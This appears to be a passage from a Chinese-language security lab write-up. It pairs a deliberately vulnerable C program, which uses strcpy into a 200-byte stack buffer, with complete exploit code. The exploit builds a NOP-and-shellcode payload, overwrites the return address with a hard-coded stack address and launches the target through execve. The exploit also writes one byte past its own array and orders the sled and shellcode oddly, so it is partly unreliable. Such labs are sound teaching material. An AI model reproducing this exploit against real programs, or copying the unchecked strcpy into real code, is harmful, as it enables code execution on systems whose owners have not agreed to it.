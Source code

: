 考虑这是具有漏洞的目标代码 - 容易缓冲区溢出。

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int foo(char *arg)
{
  char buf[200];
  strcpy(buf, arg);
}

int main(int argc, char *argv[])
{
  if (argc != 2)
    {
      fprintf(stderr, "target1: argc != 2\n");
      exit(EXIT_FAILURE);
    }
  foo(argv[1]);
  return 0;
} 
```

以下是漏洞利用代码：

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include "shellcode.h"

#define TARGET "/tmp/target1"

int main(void)
{
    char arg1[215] = "";
    memset(arg1,'\x90', 215);
    memcpy(arg1,shellcode,45);

    //0xbffffd78
    //0xbffffcb8

    arg1[212] = '\x88';
    arg1[213] = '\xfc';
    arg1[214] = '\xff';
    arg1[215] = '\xbf';
    char *args[] = { TARGET, arg1, NULL };
    char *env[] = { NULL };

    if (0 > execve(TARGET, args, env))
        fprintf(stderr, "execve failed.\n");

    return 0;
} 
```
